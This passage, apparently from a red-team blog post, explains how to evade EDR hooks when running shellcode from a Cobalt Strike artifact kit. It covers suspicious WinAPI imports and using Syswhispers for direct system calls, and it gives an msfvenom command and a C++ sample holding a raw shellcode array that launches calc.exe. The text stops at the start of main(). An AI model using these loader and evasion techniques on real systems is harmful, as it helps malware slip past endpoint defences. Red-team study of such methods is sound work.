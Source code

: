 ```
 36C InitializeSListHead
 2F0 GetSystemTimeAsFileTime
 222 GetCurrentThreadId
 21E GetCurrentProcessId
 450 QueryPerformanceCounter
 389 IsProcessorFeaturePresent
 4D3 RtlCaptureContext
```

Three imports stand out in relation to possible malicious shellcode execution: VirtualAlloc, VirtualProtect, CreateThread. Many EDRs will pay specific attention to the combination of these WinAPI calls as they are commonly used for nefarious purposes (though not always).


## Syswhispers

The Syswhispers tool was released by jthuraisamy "for red teamers to generate header/ASM pairs for any system call in the core kernel image (ntoskrnl.exe) across any Windows version starting from XP"

What this means is that we no longer need to rely on API calls available in ntdll.dll, which are often hooked by EDRs. Instead, we can use the generated header/ASM pairs to perform the relevant system calls directly.

We will first need to figure out which API calls we want to replace, then next figure out the arguments to provide for these (often) undocumented functions.

Since the executable generated by the artifact kit doesn't function on its own (we need CobaltStrike to replace the 1024 A's with shellcode), let's create a simple standalone executable that will use the same APIs as the ones we will be replacing with syscalls in the final product. This will allow us to do some debugging and will generally make our lives easier. It also avoids any possible CobaltStrike licensing issues by not disclosing the artifact kit source code.
The shellcode below was generated with msfvenom. Since you probably shouldn't run any shellcode on your system without verifying what it does, you can generate your own with the following command:
`msfvenom -p windows/x64/exec -f c CMD=calc.exe -a x64`

Sample program code:

```c++
#include <iostream>
#include <Windows.h>


unsigned char calc_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c"
"\x63\x2e\x65\x78\x65\x00";
unsigned int calc_len = 276;


int main()
```